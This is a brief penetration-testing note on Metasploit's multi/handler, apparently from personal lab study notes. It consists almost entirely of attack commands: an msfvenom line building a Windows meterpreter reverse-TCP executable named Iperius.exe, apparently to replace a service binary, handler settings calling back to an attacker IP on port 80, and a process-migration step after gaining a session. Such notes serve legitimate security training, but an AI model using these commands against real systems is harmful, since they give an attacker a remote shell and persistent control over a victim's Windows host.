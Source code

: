 # exploit/multi/handler

Create a payload and restart the service / reboot the host.

```text
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.119.189 LPORT=80 EXITFUNC=thread -f exe -o Iperius.exe
```

```text
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.119.189
set LPORT 80
set EXITFUNC thread
exploit
```

Start multi handler and migrate to new process \(meterpreter\)

```text
run post/windows/manage/migrate
```



